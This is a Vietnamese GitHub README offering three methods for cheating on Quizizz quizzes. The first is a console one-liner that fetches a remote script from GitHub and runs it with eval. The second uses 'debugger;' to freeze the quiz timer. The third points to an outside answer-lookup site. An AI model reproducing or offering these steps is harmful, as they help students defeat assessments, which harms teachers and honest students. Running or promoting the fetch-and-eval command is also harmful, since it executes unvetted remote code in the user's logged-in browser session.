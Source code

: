 # hack-quizz
Tất tần tật về hack đáp án trên quizz:

Cách 1:
	Step 1: start your quizizz in https://quizizz.com/join/

	Step 2: open console tab [Ctrl+Shift+J]

	Step 3: paste this code
	
	// quizizz hack by LTP
	fetch("https://raw.githubusercontent.com/lucthienphong1120/hack-quizizz/main/script.js")
    .then((res) => res.text()
    .then((t) => eval(t)))
	
Cách 2: Dừng thời gian chạy để tra đáp án

Mở console và gõ lệnh:

debugger;

Lúc này thời gian sẽ ngừng,tha hồ tra nha =)))

Cách 3:Tra đáp án trên web

-Truy cập địa chỉ https://schoolcheats.net/quizizz/

-Xác thực tài khoản bằng discord

-Nhập mã code bài ktra

-Ctrl F để tra đáp án 

